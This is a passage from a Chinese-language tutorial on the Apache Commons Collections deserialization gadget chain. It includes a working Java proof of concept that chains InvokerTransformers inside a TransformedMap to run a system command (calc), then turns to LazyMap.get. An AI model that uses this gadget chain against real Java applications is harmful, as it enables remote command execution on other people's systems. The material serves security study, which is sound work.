 通过上述分析的触发条件，生成一个`TransformedMap`，并且修改这个Map的value值，即可触发。

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.IOException;
import java.util.HashMap;
import java.util.Iterator;
import java.util.Map;

public class payloadTest {
    public static void main(String[] args) throws IOException {
        Transformer[] transformers = new Transformer[]{
             new ConstantTransformer(Runtime.class),
             new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
             new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
             new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        //Runtime.getRuntime().exec("calc");
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        Map inMap = new HashMap();
        inMap.put("key", "value");
        Map outMap = TransformedMap.decorate(inMap, null, chainedTransformer);//生成

        //outMap.put("v1","v2");//同样会触发transform方法
        for (Iterator iterator = outMap.entrySet().iterator(); iterator.hasNext();){
            Map.Entry entry = (Map.Entry) iterator.next();
            entry.setValue("123");
        }
    }
}
```

运行并弹出计算器。

{% hint style="info" %}
其实，只要调用`TransformedMap`的`setValue/put/putAll`中的任意方法都会调用`InvokerTransformer`类的`transform`方法，从而也就会触发命令执行。
{% endhint %}

### **LazyMap**

`LazyMap`实现了`Map`接口，其中的`get(Object)`方法调用了`transform()`方法，跟进函数进去

```java
public Object get(Object key) {
    // create value for key if key is not currently in the map
    if (map.containsKey(key) == false) {
        Object value = factory.transform(key);
        map.put(key, value);
        return value;
    }
    return map.get(key);
}
```
